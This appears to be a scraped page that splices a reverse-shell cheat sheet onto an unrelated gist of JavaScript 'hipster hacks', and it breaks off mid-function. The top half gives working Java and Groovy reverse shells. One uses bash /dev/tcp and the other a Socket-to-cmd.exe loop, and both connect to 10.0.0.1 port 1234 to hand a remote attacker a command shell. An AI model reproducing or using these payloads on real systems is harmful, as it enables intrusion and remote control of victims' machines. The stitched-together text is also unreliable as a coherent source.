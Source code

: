 
https://gist.github.com/berzniz/7632148
<br>
<br>
<br>

Java #
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

///////////////////////////////////
//////////////////////////////////

Groovy 3 #
String host="10.0.0.1";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
Note: Java reverse shell also works for Groovy.

///////////////////////////////////
//////////////////////////////////

Some small javascript hacks for hipsters
jshipster_and_and.js
// Boring
if (isThisAwesome) {
  alert('yes'); // it's not
}

// Awesome
isThisAwesome && alert('yes');

// Also cool for guarding your code
var aCoolFunction = undefined;
aCoolFunction && aCoolFunction(); // won't run nor crash
jshipster_debugger.js
var x = 1;
debugger; // Code execution stops here, happy debugging
x++;


var x = Math.random(2);
if (x > 0.5) {
  debugger; // Conditional breakpoint
}
x--;
jshipster_globals_for_debugging.js
var deeplyNestedFunction = function() {
  var private_object = {
    year: '2013'
  };
  